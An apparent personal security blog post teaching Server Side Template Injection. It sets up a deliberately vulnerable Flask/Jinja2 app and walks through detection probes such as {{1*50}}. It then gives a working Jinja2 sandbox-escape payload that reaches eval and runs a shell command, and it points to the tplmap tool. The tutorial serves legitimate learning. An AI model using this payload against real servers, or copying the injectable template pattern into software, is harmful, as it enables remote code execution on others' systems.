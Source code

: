 ```yaml
---
layout: post
title:  Server Side Template Injection (SSTI)
date: 2019-1-5 1:118:6.000000000 +08:00
---
```

Hello everybody
from this time i will write my blog use English ,maybe this blog have a lot of grammatical errors ,but i want to try it ,so let we start 

# Original
My high school must provide space to art exam , so i am in vacation now , at this time i remember last weekend,the tweet `https://twitter.com/LooseSecurity/status/1078278986487205891` 
![ssti]({{ "http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/ssti/ssti.png"|ssti}})
when i first saw the `SSTI` i just know this is an injection vulnerability . Now i have 2 days time , i think i should do something to study `SSTI` 

# What is SSTI
`SSTI` Server Side Template Injection , one of the injection attack . the `SSTI` sometime can getshell !
```php
$output=$twig->render('Dear '{first_name},array("first_name" => $user.firstname));
```
```javascript
Dear {$user.first_name}
```

sometime i can see the webpage, enter the data,the server gives us an echo,maybe it using template to show it. bug when these time i always try to find XSS vulnerability .in fact we can try `SSTI` .
 we can input payload like `{{1*50}}` input this payload  ,if the `50` in response,there is a high probability of a vulnerability. Because the template may have processed the data ,if the error in response don't give up maybe you need do closure the template, you can try `test }}{{1*50}}`
we use the `{{1*50}} ` to verify that this location uses a template.
it's too boring to say ,so let we have a try

you need to prepare `Python`and`curl`and`flask`and`jinja2`
```python
from flask import Flask, request
from jinja2 import Environment

app = Flask(__name__)
Jinja2 = Environment()

@app.route("/page")
def page():
    name = request.values.get('name')
    output = Jinja2.from_string('Hello ' + name + '!').render()
    return output

if __name__ == "__main__":
    app.run(host='127.0.0.1', port=820)
```
let we run this script 
![ssti]({{ "http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/ssti/ssti1.png"|ssti}})
use curl to send get requests 
![ssti]({{ "http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/ssti/ssti2.png"|ssti}})
try to injection
![ssti]({{ "http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/ssti/ssti3.png"|ssti}})
i send `{{config}}` but something wrong 
it response status code is `500`
what happen???
i know the config is not support ,so i have to change the i send `{{self.__dict__}}`
it is work 
![ssti]({{ "http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/ssti/ssti4.png"|ssti}})
so i continue to try execution command 
```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
```
```python
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
```
```python
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
we need urlencode and send the payload to target
![ssti]({{ "http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/ssti/ssti5.png"|ssti}})


What fun!


# Using tools SSTI
`https://github.com/epinna/tplmap`
tplmap 


# END
C1h2e1 leading to world wide
i love pentest
 
# Reference 
```
https://www.youtube.com/watch?v=3cT0uE7Y87s
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections
https://blog.csdn.net/qq_33020901/article/details/83036927
https://portswigger.net/blog/server-side-template-injection
```








